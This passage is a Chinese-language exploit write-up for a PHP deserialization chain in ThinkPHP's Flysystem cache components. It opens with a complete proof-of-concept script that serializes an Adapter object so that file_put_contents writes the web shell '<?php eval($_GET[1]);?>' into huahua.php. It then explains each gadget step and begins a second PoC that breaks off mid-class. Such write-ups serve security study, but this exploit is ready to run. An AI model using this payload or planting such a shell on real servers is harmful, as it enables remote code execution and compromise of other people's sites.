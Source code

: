 ```plain
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是 abstract class AbstractCache 中的\_\_destruct 方法  
但是 PHP 的抽象方法不能被实例化，因此需要实例化它的子类，这里选择的是 League\\Flysystem\\Cached\\Storage 的 Adapter.php  
然后进入 Adapter.php 的 save() 方法：目标是进入 write() 方法，里面有 file\_put\_contents，这里参数都可以控制首先看一下 getForStorage() 方法，它影响了 write 函数写入文件的内容 content 它会返回一个 json 加密的数据，这个参数是 cache,protected $cache = \[\];我们实例化的时候可控进入 cleanContents() 函数：我们只需要传入的 cache 是一个一维数组就不会进入 if 语句然后考虑这个 this->adapter 变量，这里找的是同时具有 has() 方法和 write() 方法的类，找到的是 League\\Flysystem\\Adapter 的 Local.php  
首先 has 方法我们需要保证返回 false 进入 applyPathPrefix() 很简单的字符串拼接，我们传入的$this->file 只要是一个不存在的文件就行进入 write() 方法

[![](assets/1709530629-6d44ef8b1065c031621df2f951f38ba5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110315-beebfeea-d9d3-1.png)

一样的先调用 applyPathPrefix() 方法，拼接一下文件路径，这里做的限制是删除路径的/字符，tp 默认写入文件就是 public 目录我们不需要设置路径最后成功写入木马  
此外我们看下 Y4tacker 师傅的 poc

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
```